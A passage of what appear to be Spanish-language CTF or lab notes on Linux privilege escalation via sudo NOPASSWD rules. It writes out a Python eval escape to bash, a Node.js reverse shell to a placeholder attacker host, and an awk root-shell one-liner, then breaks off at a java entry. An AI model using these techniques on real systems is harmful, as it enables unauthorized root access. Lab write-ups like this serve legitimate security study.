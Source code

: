 sudo -u 200-ok /home/404-page/calculator.py

como también ejecutamos el script para luego ejecutar __import():

sudo -u 200-ok /home/404-page/calculator.py

calculator> __import__('os').system('id')
calculator> __import__('os').system('bash')

listo somos el usuario 200-ok

-------------------------------------------------------------------------------

6.-	/usr/bin/node /home/mario/script.js	

User mario may run the following commands on b1a75e40f255:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js

para escalar privilegios lo que haremos es modificar el archivo script.js para obtener una shell con permisos root:

agregamos este código:

(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(PORT-NC, "IP-KALI", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();

luego nos ponemos en escucha por el puerto 443 y ejecutamos el archivo script.js de la siguiente manera:

sudo /usr/bin/node /home/mario/script.js

nc -lvnp 4433 y listo somos root

-------------------------------------------------------------------------------

7.-	/usr/bin/awk 
User luisillo may run the following commands on ae271debc19a:
    (ALL) NOPASSWD: /usr/bin/awk

entonces ejecute el comando:

sudo /usr/bin/awk 'BEGIN {system("/bin/sh")}'

y listo somos root !!!

-------------------------------------------------------------------------------

8.- 	/usr/bin/java
User pinguinazo may run the following commands on 4fb091c23ccd:
    (ALL) NOPASSWD: /usr/bin/java
